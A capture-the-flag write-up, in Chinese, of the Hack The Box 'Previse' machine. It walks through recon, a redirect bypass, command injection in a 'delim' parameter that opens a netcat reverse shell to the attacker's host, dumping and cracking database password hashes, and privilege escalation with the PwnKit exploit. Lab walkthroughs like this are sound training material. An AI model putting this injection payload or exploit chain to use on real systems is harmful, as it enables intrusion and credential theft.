




###### tags: `Hack the box` `HTB` `Easy` `Linux`

# Previse
```
┌──(kali㉿kali)-[~/htb]
└─$ rustscan -a 10.129.95.185 -u 5000 -t 8000 --scripts -- -n -Pn -sVC

Open 10.129.95.185:22
Open 10.129.95.185:80

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 53:ed:44:40:11:6e:8b:da:69:85:79:c0:81:f2:3a:12 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDbdbnxQupSPdfuEywpVV7Wp3dHqctX3U+bBa/UyMNxMjkPO+rL5E6ZTAcnoaOJ7SK8Mx1xWik7t78Q0e16QHaz3vk2AgtklyB+KtlH4RWMBEaZVEAfqXRG43FrvYgZe7WitZINAo6kegUbBZVxbCIcUM779/q+i+gXtBJiEdOOfZCaUtB0m6MlwE2H2SeID06g3DC54/VSvwHigQgQ1b7CNgQOslbQ78FbhI+k9kT2gYslacuTwQhacntIh2XFo0YtfY+dySOmi3CXFrNlbUc2puFqtlvBm3TxjzRTxAImBdspggrqXHoOPYf2DBQUMslV9prdyI6kfz9jUFu2P1Dd
|   256 bc:54:20:ac:17:23:bb:50:20:f4:e1:6e:62:0f:01:b5 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBCnDbkb4wzeF+aiHLOs5KNLPZhGOzgPwRSQ3VHK7vi4rH60g/RsecRusTkpq48Pln1iTYQt/turjw3lb0SfEK/4=
|   256 33:c1:89:ea:59:73:b1:78:84:38:a4:21:10:0c:91:d8 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIICTOv+Redwjirw6cPpkc/d3Fzz4iRB3lCRfZpZ7irps
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-favicon: Unknown favicon MD5: B21DD667DF8D81CAE6DD1374DD548004
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-title: Previse Login
|_Requested resource was login.php
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

buster
```
┌──(kali㉿kali)-[~/htb]
└─$ ffuf -u http://10.129.95.185/FUZZ.php -w /home/kali/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt

login                   [Status: 200, Size: 2224, Words: 486, Lines: 54, Duration: 292ms]
#                       [Status: 302, Size: 2801, Words: 737, Lines: 72, Duration: 1231ms]
# Suite 300, San Francisco, California, 94105, USA. [Status: 302, Size: 2801, Words: 737, Lines: 72, Duration: 2233ms]
files                   [Status: 302, Size: 4914, Words: 1531, Lines: 113, Duration: 315ms]
#                       [Status: 302, Size: 2801, Words: 737, Lines: 72, Duration: 3238ms]
# directory-list-2.3-medium.txt [Status: 302, Size: 2801, Words: 737, Lines: 72, Duration: 4243ms]
header                  [Status: 200, Size: 980, Words: 183, Lines: 21, Duration: 291ms]
nav                     [Status: 200, Size: 1248, Words: 462, Lines: 32, Duration: 291ms]
index                   [Status: 302, Size: 2801, Words: 737, Lines: 72, Duration: 5247ms]
download                [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 5249ms]
#                       [Status: 302, Size: 2801, Words: 737, Lines: 72, Duration: 5252ms]
# on at least 2 different hosts [Status: 302, Size: 2801, Words: 737, Lines: 72, Duration: 5253ms]
                        [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 5255ms]
# Priority ordered case-sensitive list, where entries were found [Status: 302, Size: 2801, Words: 737, Lines: 72, Duration: 5255ms]
footer                  [Status: 200, Size: 217, Words: 10, Lines: 6, Duration: 291ms]
status                  [Status: 302, Size: 2966, Words: 749, Lines: 75, Duration: 296ms]
logout                  [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 293ms]
accounts                [Status: 302, Size: 3994, Words: 1096, Lines: 94, Duration: 296ms]
config                  [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 296ms]
logs                    [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 295ms]
                        [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 292ms]
:: Progress: [220560/220560] :: Job [1/1] :: 136 req/sec :: Duration: [0:28:14] :: Errors: 0 ::
```


開burp卡`http://10.129.95.185/accounts.php`，發現有[EAR](https://owasp.org/www-community/attacks/Execution_After_Redirect_(EAR))右鍵選`Do intercept->Response to this request`然後點`Forward`







把`302 Found`改成`200 OK`然後右鍵選`show response in browser`

新增一個user



就可以登入了

`http://10.129.95.185/files.php`下載`SITEBACKUP.ZIP`

查看`logs.php`，看起來有`exec()`可以試試
```
$output = exec("/usr/bin/python /opt/scripts/log_process.py {$_POST['delim']}");
echo $output;

$filepath = "/var/www/out.log";
$filename = "out.log";    
```

前往`http://10.129.95.185/file_logs.php`把它卡住之後，對`delim`進行`command injection`
```
POST /logs.php HTTP/1.1

Host: 10.129.95.185
Content-Length: 11
Cache-Control: max-age=0
Accept-Language: en-US
Upgrade-Insecure-Requests: 1
Origin: http://10.129.95.185
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.129.95.185/file_logs.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=61ifmfnsfieuord8894ihpv4sk
Connection: keep-alive


delim=comma; nc 10.10.14.54 4444 -e /bin/sh
```

開nc
```
┌──(kali㉿kali)-[~/htb]
└─$ rlwrap -cAr nc -nvlp4444

uid=33(www-data) gid=33(www-data) groups=33(www-data)
python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@previse:/var/www/html$
```

用剛剛在`config.php`得到的帳號密碼登入sql
```php
<?php

function connectDB(){
    $host = 'localhost';
    $user = 'root';
    $passwd = 'mySQL_p@ssw0rd!:)';
    $db = 'previse';
    $mycon = new mysqli($host, $user, $passwd, $db);
    return $mycon;
}

?>
```

可以看到`m4lwhere`的密碼
```
www-data@previse:/tmp$ mmysql -u root -p 
mysql -u root -p 
Enter password: mySQL_p@ssw0rd!:)

mysql> show databases;
show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| previse            |
| sys                |
+--------------------+
5 rows in set (0.01 sec)

mysql> use previse

mysql> show tables;
show tables;
+-------------------+
| Tables_in_previse |
+-------------------+
| accounts          |
| files             |
+-------------------+
2 rows in set (0.00 sec)

mysql> select * from accounts;
select * from accounts;
+----+----------+------------------------------------+---------------------+
| id | username | password                           | created_at          |
+----+----------+------------------------------------+---------------------+
|  1 | m4lwhere | $1$🧂llol$DQpmdvnb7EeuO6UaqRItf. | 2021-05-27 18:18:36 |
|  2 | test123  | $1$🧂llol$sP8qi2I.K6urjPuzdGizl1 | 2024-09-11 03:16:00 |
+----+----------+------------------------------------+---------------------+
2 rows in set (0.00 sec)
```

用john破
```
┌──(kali㉿kali)-[~/htb]
└─$ john m4lwhere --format=md5crypt-long --wordlist=/home/kali/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt-long, crypt(3) $1$ (and variants) [MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
ilovecody112235! (?)
```

切換成`m4lwhere`，在`/home/m4lwhere`可得user.txt
```
www-data@previse:/var/www/html$ su m4lwhere
Password: ilovecody112235!

m4lwhere@previse:~$ cat user.txt
3344dde143d921e69de2efa379363453
```

用`linpeas.sh`
```
m4lwhere@previse:/tmp$ wget 10.10.14.54/linpeas.sh
m4lwhere@previse:/tmp$ chmod +x linpeas.sh
m4lwhere@previse:/tmp$ ./linpeas.sh

[+] [CVE-2021-4034] PwnKit

   Details: https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
   Exposure: probable
   Tags: [ ubuntu=10|11|12|13|14|15|16|17|18|19|20|21 ],debian=7|8|9|10|11,fedora,manjaro
   Download URL: https://codeload.github.com/berdav/CVE-2021-4034/zip/main
```

用[CVE-2021-4034](https://github.com/joeammond/CVE-2021-4034/blob/main/CVE-2021-4034.py)得root之後，在/root得root.txt

```
m4lwhere@previse:/tmp$ wget 10.10.14.54/CVE-2021-4034.py
m4lwhere@previse:/tmp$ python3 CVE-2021-4034.py

# python3 -c 'import pty; pty.spawn("/bin/bash")'
root@previse:/root# cat root.txt
9cd1866f272f4de84be34e4910620b1a
```